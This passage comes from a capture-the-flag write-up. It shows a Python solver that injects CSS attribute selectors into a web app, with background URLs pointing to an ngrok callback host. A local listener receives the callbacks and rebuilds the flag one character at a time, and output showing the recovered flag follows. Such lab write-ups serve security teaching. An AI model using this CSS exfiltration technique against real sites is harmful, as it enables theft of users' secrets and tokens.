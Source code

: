 ```python
	for i in string.ascii_lowercase+string.digits+'_}':
		requests.get('''%s/update?mark=green;}input[name="key"][value*="%s%s"] {background: url(http://78d6-103-220-81-252.ngrok.io/?%s)'''%(url,flag,i,i),
				cookies = {'session':c},verify=False
				)

def listener(url,flag):
	# Start listener
	l = listen(80).wait_for_connection()
	f = l.recvline().strip().decode('utf-8').split('?')[1].split(' ')[0]
	l.close()
	return f

if __name__=="__main__":
	r = requests.post(
			url+'/login',
			data = {'username':'tamayo','password':'dCf3VkFt04Ds92S'},
			allow_redirects=False,
			verify=False
			)
	cookie = r.headers['Set-Cookie'].split(';')[0].split('=')[1]
	while True:
		r = requests.get(f'{url}/data',cookies={'session':cookie},verify=False)
		msg = BeautifulSoup(r.text,'lxml')
		if len(msg.find_all('tr'))>9:
			log.info('Waiting for data cleanup')
			sleep(5)
		else:
			with concurrent.futures.ThreadPoolExecutor() as executor:
				future = executor.submit(listener, url, flag)
				executor.submit(trigger, url, flag, cookie)
				flag+=future.result()
			log.success(flag)
```

The script does below. 

* Checks if data is removed by admin then injects multiple records looping over all possible characters. 
* Starts listener on port 80 and waits for connections. 
* Once callback received it trims flag value from HTTP request param and prints the results. 
* Appends the results and continues the attack till we get full flag.

The output looks like below.

```bash
sudo ./solver.py 
[*] Waiting for data cleanup
[*] Waiting for data cleanup
[+] Trying to bind to :: on port 80: Done
[+] Waiting for connections on :::80: Got connection from ::1 on port 43020
[*] Closed connection to ::1 port 43020
[+] ACVCTF{t
[*] Waiting for data cleanup
[*] Waiting for data cleanup
[+] ACVCTF{th
[*] Waiting for data cleanup
[+] ACVCTF{th3
[*] Waiting for data cleanup
[*] Waiting for data cleanup
....
[+] ACVCTF{th3r3_1s_n0_turn1ng_b4ck}
```
